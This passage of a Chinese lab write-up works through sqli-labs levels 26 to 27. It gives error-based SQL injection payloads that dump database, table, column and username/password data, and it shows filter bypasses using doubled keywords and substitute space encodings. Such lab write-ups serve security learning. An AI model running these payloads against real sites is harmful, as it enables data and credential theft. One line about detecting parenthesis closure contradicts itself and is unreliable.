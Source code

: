 

<img src="https://i-blog.csdnimg.cn/blog_migrate/d63d9542275cc674d2657614d37c2f29.png" alt="" style="max-height:186px; box-sizing:content-box;" />


```cobol
?id=1'||(extractvalue(1,concat(0x7e,(database()))))||'1
 
 
?id=1'||(extractvalue(1,concat(0x7e,(select(group_concat(table_name))from(infoorrmation_schema.tables)where(table_schema=database())))))||'1
 
 
 
 
?id=1'||(extractvalue(1,concat(0x7e,(select(group_concat(column_name))from(infoorrmation_schema.columns)where(table_schema=database())anandd(table_name='users')))))||'1
 
 
?id=1'||(extractvalue(1,concat(0x7e,(substr((select(group_concat(username,passwoorrd))from(users)),25,40)))))|'1
```

但是看网络的wp

空格可以使用 %0a  %a0 %0b绕过

## Less-26a   判断闭合

这道题是')闭合

首先我们来学习一下如何判断')闭合

```cobol
select * from user where id=('id')
 
 
输入 2'||'1'='2
select * from user where id=('2'||'1'='2')
这个 通过逻辑判断 返回的是 bool 为1 所以会查询id=1
 
如果不是括号闭合
select * from user where id='2'||'1'='2'
 
这里就只会查询 id=2的值 所以查看回显就可以  如果回显的是1的页面 就说明是括号
 
如果回显的是2的页面 就说明是括号闭合
```

然后就和26一样进行注入即可

## Less-27 过滤 union select

这里很明显就是过滤了union 和 select

